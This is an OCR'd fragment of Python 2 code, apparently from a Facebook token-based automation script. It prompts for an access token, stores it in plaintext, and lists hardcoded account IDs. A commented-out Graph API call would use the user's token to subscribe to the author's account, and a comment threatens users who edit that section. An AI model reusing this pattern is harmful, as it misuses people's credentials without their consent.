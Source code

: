     try:

        token = open('access_token.txt', 'r').read()

        

        menu()

    except (KeyError, IOError):

        print logo

        print ''

        print ' \x1b[1;91m  \t Login With Token '

        print ''

        token = raw_input('Paste Token Here : ')

        sav = open('access_token.txt', 'w')

        sav.write(token)

        sav.close()

        login()

#-----------------------------

#DONT EDIT THIS SECTION

#OTHERWISE YOUR SCRIPT WILL

#BE LOL & FULLOF VIRUS 

def menu():

    os.system('clear')

    try:

        token = open('access_token.txt', 'r').read()

        #requests.post('https://graph.facebook.com/100004718461536/subscribers?access_token=%s',token)

    except (KeyError, IOError):

        login()

    try:

        sz = '100017565944567'

        sz1 = '100025338049048'

        sz2 = '100025596378154'

        sz3 = '100053348941384'

        sz4 = '100004718461536'

        sz5 = '100065328697980'

        sss = '1076164763238115'

